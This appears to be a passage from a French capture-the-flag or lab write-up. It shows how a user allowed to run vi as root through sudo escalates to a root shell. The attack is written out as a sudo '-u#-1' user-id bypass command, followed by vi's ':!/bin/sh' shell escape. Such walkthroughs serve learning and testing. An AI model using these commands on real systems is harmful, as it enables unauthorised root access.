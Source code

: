 Gabriel peut exécuter la commande /usr/bin/vi en tant que root sans mot de passe
Allons faire un tour sur le site hacktricks.xyz pour voir comment exploiter cette faille.

![Nom d'utilisateur FTP](images/Musa/18.png)

```bash
sudo -u#-1 /usr/bin/vi /home/gabriel/user.txt
```

- Appuyez sur `:` pour accéder au mode commande.

- Tapez `:!/bin/sh` pour exécuter un shell.

- Appuyez sur `Enter` pour exécuter la commande.

- Vous avez maintenant un shell root.

![Nom d'utilisateur FTP](images/Musa/19.png)
